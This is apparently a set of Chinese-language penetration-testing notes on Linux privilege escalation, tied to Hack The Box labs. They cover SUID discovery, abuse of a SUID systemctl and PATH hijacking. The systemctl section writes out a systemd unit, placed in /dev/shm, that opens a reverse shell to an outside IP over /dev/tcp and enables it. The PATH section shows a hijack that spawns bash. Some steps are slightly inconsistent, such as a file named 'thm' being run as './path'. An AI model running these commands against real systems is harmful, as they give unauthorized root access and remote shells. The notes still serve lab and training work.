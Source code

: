 ## 提权


### Sudo
[[htb#Stocker]]
### 信息收集



* SUID

* ```shell
  find / -type f -perm -04000 -ls 2>/dev/null
  ```python

  * systemctl

    ```shell
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/bash -c "/bin/bash -i > /dev/tcp/10.4.20.202/9001 0>&1 2<&1"
    [Install]
    WantedBy=multi-user.target' > /dev/shm/mm.service
    
    #生成一个unit名为mm.service,放在/dev/shm 下
    ```

    ```bash
    systemctl link /dev/shm/mm.service
    systemctl enable --now /dev/shm/mm.service
    ```

    > 通常unit存放在`/usr/lib/systemd/system/` 和 `/etc/systemd/system/，可以被systemctl加载执行，但是渗透过程中需要提权的场景往往权限较小，这些目录不可写。而systemctl的特性决定了，当unit在/tmp目录下时，无法被systemctl加载。这里需要掌握一个神奇的目录：/dev/shm/,关于这个目录的解读可以移步：https://www.cnblogs.com/tinywan/p/10550356.html学习掌握。这里就可以把我们生`成的unit文件放置再这个目录

    

​		

* 环境变量

  ```shell
  #查找可写文件夹
  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  ```

  ```shell
  export PATH=/tmp:$PATH
  ```

  ```shell
  #新建一个shell
  echo "/bin/bash" >thm
  chmod 777 thm
  ./path
  ```

* NFS(网络文件共享)

  查看 /etc/exports

